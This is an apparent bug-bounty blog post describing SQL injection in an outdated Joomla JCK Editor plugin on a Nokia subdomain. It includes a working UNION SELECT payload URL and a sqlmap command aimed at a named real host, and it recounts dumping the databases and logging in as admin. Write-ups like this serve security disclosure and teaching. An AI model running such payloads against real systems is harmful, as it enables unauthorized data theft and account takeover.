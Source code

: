 ```yaml
---
title: "SQL Injection on Nokia subdomain"
date: 2019-11-04T17:55:28+08:00
description: "this blog is about SQL Injection on nokia subdomain"
tags: ["bugbounty","security","webpentesting"]
type: post
weight: 25
showTableOfContents: true
---
```


Hello :wave:, I'll share with you how I found sqli on Nokia that makes me able to login into the admin page
you will not see something new here like new techniques or something, just simple steps

after doing subdomain enumeration I found a subdomain that's working with Joomla, after that I ran joomscan to get the version of the cms and plugins to see if there's any outdated version to exploit it, and joomscan gives me an old plugin called `JCK Editor` with version `6.4.4`
and after searching with this version on exploit-DB i found SQLI injection in this version [CVE-2018-17254](https://www.exploit-db.com/exploits/45423)

```
Test = [HOST]/[PATH]/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=%22%20UNION%20SELECT%20NULL,NULL,@@version,NULL,NULL,NULL,NULL,NULL--%20aa
```

![sql_nokia](https://1.bp.blogspot.com/-LgYxMfeJKhs/Xscwx2tKONI/AAAAAAAAEMs/HJ5I5jgXFv8ExESVK3bm0Mk2hpQWbDiagCK4BGAsYHg/nokiasql.png)

as you can see, we can get the version of the database :mag:

this time for my fav weapon (SQLMAP)


```bash
$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --current-DB --current-user
```



you can see the current user and the name of the database :)

After dumping all databases using the --all option and unencrypt the password of the admin account let's login in admin panel

![nokia_pwn](https://1.bp.blogspot.com/-87ctqF3EmDM/XscxFpvVAhI/AAAAAAAAENE/Cgi-Kfnjxco0cND_FONrVmsOWySdiu_SQCK4BGAsYHg/cp.jpg)


sea ya :v:
